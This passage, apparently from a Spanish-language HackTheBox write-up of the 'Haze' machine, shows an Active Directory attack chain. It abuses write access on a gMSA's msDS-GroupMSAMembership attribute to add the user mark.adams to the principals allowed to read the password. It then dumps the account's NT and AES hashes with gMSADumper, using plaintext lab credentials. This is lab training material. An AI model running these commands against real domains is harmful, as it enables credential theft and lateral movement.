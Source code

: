 Analizo los permisos ACL para verificar el acceso sobre el atributo `msDS-GroupMSAMembership`. Y encuentro que el grupo `gMSA_Managers`, al cual pertenece `mark.adams`, posee privilegios de escritura sobre ese atributo <a id="incorrect-privilege-assignment" href="#cwe-266" class="cwe-ref">(CWE-266)</a>.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> dsacls "CN=HAZE-IT-BACKUP,CN=MANAGED SERVICE ACCOUNTS,DC=HAZE,DC=HTB"
...snip...
Allow HAZE\gMSA_Managers              SPECIAL ACCESS for msDS-GroupMSAMembership
                                      WRITE PROPERTY
...snip...
```

---
### Domain or Tenant Policy Modification

El atributo `msDS-GroupMSAMembership` define qué usuarios o grupos están autorizados a recuperar la contraseña del objeto `gMSA`. Al contar con permisos de escritura sobre este atributo, el usuario `mark.adams` tiene la capacidad directa de agregarse a la lista de entidades permitidas para acceder a la contraseña de la identidad `Haze-IT-Backup$`.

Aprovecho este privilegio para modificar el valor de `PrincipalsAllowedToRetrieveManagedPassword`, estableciendo que `mark.adams` sea un sujeto autorizado.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword


DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Mark Adams,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

Ejecuto nuevamente gMSADumper con las mismas credenciales y obtengo con éxito los hashes de contraseñas AES256 y AES128 asociadas a la cuenta `Haze-IT-Backup$` asi como el NT hash.

```terminal
/home/kali/Documents/htb/machines/haze:-$ python3 /home/kali/Documents/Tools/gMSADumper/gMSADumper.py -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -l dc01.haze.htb -d haze.htb
Users or groups who can read password for Haze-IT-Backup$:
 > mark.adams
Haze-IT-Backup$:::84d6a733d85d9e03f46eba25b34517a9
Haze-IT-Backup$:aes256-cts-hmac-sha1-96:8c47d46d7f2a5aef9d2ab5fda8c60b6e094ad78b2c55878faa9ff2b7fac740a6
Haze-IT-Backup$:aes128-cts-hmac-sha1-96:7627ff016dd47b73e99596362a068f41
```

---